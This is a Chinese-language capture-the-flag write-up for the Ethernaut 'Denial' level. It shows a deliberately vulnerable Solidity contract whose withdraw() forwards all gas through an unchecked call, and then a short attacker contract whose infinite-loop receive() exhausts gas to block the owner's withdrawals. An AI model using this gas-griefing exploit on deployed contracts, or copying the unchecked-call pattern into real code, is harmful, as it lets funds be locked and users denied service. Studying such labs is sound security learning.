 ## Level_20.Denial

要求：

> 在合约中有钱的情况下，使owner不能取款；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### 分析

重点就在` withdraw() `这个函数，无论` partner.call{value: amountToSend}(""); `这句是否执行成功，` payable(owner).transfer(amountToSend); `都会执行，除非gas费用耗尽；

所以我们只需实现一个合约，将其设置为partner，其中` receive() `中实现一个无限循环；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    receive() external payable { 
        while(true){}
    }
}
```

将其部署，并设置成partner即可；

